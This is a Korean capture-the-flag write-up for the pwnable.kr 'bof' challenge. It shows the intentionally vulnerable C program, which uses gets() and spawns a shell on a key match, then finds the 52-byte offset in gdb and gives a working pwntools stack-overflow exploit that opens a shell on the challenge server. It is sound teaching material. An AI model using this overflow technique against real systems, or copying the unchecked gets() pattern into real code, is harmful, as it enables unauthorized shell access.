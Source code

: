 # [pwnable.kr] bof문제 writeup

---

![Untitled](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled.png)

리눅스에 wget명령어로 bof파일을 받아서 gdb-gef를 사용하여 디버깅 해보았다.

![스택에 0xdeadbeef를 넣어주고 func라는 함수를 실행한다.](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled%201.png)

스택에 0xdeadbeef를 넣어주고 func라는 함수를 실행한다.

한번 func 함수를 disas 명령어로 확인해보자

![Untitled](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled%202.png)

24번째, 35번째 줄에서 함수를 호출하고(어떤 함수인지는 아직 모름) cmp부분에서 0 xcafebabe랑 비교하는 걸 볼 수 있다.

한번 c언어 코드도 보자

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

c언어의 func함수 코드를 보니 대충감이 왔다.

어셈블리에서 24번째 줄에서 호출한 함수는 printf함수고, 35번째 줄에서 호출하는 함수는 gets함수다.

bof문제이기 때문에 gets에서 오버플로우를 발생시켜서 if부분에 key값을 조작하면 해결될 거 같다.

gets에서 내가 입력한 문자열이랑 key에 들어있는 0 xdeadbeef값이 얼마나 떨어져 있는지 알아내기 위해서 gdb에서 func+40(gets함수 바로 다음 부분)에 브레이크 포인트를 걸고 실행시켜보았다.

aaaa를 입력했다.

![브레이크 포인트에 멈춘 상태](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled%203.png)

브레이크 포인트에 멈춘 상태

![Untitled](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled%204.png)

find 명령어로 입력한 값이 저장된 위치를 찾았다.

내가 입력한 0x61616161(aaaa)로부터 0 xdeadbeef가 얼마큼 떨어져 있는지 알아내기 위해 x/20wx 0 xffffd2 dc 명령어를 사용했다

![gets로 받는 부분부터 13만큼 떨어져있다](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled%205.png)

gets로 받는 부분부터 13만큼 떨어져있다

aaaa를 넣었을 때 한 칸이 0x61616161로 찼으니까 총 4x13=52만큼 문자를 입력하고 0 xcafebabe를 입력하면 조작할 수가 있다.

---

<aside>
💡 **추가내용**

</aside>

> 찾아보니 pwndbg에 더 편한 기능이 있었다. distance라는 명령어인데 각 값의 주소를 입력해주면 오프셋를 구해준다.
> 

![각 값의 주소를 구해주고](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled%206.png)

각 값의 주소를 구해주고

![명령어를 사용하면](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled%207.png)

명령어를 사용하면

0x34(10진수로 52) 바이트만큼 떨어져 있다고 나온다.

---

## Exploit

```python
from pwn import *

p = remote("pwnable.kr", 9000)

payload = b'a'*52

payload += p32(0xcafebabe)

p.sendline(payload)
p.interactive()
```

4번째 줄에서는 사이트에 나와있는 nc의 주소로 접속하게 해주는 코드이다. 

첫 번째 gets에서 오버플로우를 발생시켜야 하기 때문에 페이로드를 한 문자열로 끝내야 한다.

6번째 줄에서 위에서 설명한 대로 52만큼 문자를 입력해준다.

그리고 0 xcafebabe를 추가해줘야 하는데 여기가 중요하다.

### 32비트 프로그램은 리틀 엔디안 방식으로 데이터를 저장한다.

> 간단하게 설명하자면 0x12345678을 리틀 엔디안 방식으로 저장한다고 하면 78,56,34,12 이런 식으로 순서가 뒤바뀐다. 이 부분에 대해서는 개인 공부를 더해보길 바란다.
> 

앞에 52개의 문자는 더미 데이터라서 순서가 상관없었지만 0 xcafebabe는 순서가 정확해야 cmp부분을 통과할 수가 있다. pwntools에는 p32()라는 아주 좋은 함수가 있다. p32()는 값을 32비트인 리틀 엔디안 방식으로 알아서 패킹해준다.

이제 완성된 페이로드를 p.sendline으로 자동 입력이 되게 하고, p.interactive로 내가 직접 상호작용 할 수 있게 하면 완성이다. 한번 실행시켜보자.

![플래그를 읽을 수 있었다](/3%EC%A3%BC%EC%B0%A8/Pwnable.kr%20BOF/%5Bpwnable%20kr%5D%20bof%20writeup/Untitled%208.png)

플래그를 읽을 수 있었다